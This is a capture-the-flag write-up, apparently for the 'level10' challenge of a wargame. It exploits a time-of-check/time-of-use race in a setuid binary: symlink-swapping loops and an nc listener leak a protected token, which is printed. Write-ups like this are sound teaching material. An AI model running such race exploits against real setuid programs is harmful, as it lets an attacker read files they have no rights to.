 # Level10

## Context
We found `level10` executable file and ```token``` file in our home.
```
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Usage of level10:
```
./level10 file host
	sends file to host if you have access to it
```

We can make it work by launching these 2 commands in 2 seperate terminals:
```
nc -l 6969
```

```
./level10 file 0.0.0.0
```

Simple program explanation
 * ./level check with access if we have read rights to file (which we don't for `token`)
 * It then opens it (it can open `token`) and sends it to host

## Resolution
 * We use a symbolic link as file, which we constantly switch between `token` and a file we got access to.
 * We can do this by launching these 3 commands at the same in different terminals:
   * ```
while true; do ln -sf /home/user/level10/token /var/crash/bg_du_75 && ln -sf /home/user/level10/level10 /var/crash/bg_du_75; done
 ```
   * ```
while true; do nc -l 6969; done
 ```
   * ```
while true; do ./level10 /var/crash/bg_du_75 0.0.0.0; done
 ```
 * We then get `woupa2yuojeeaaed06riuj63c` which can be use for flag10 AND flag11 !!!!
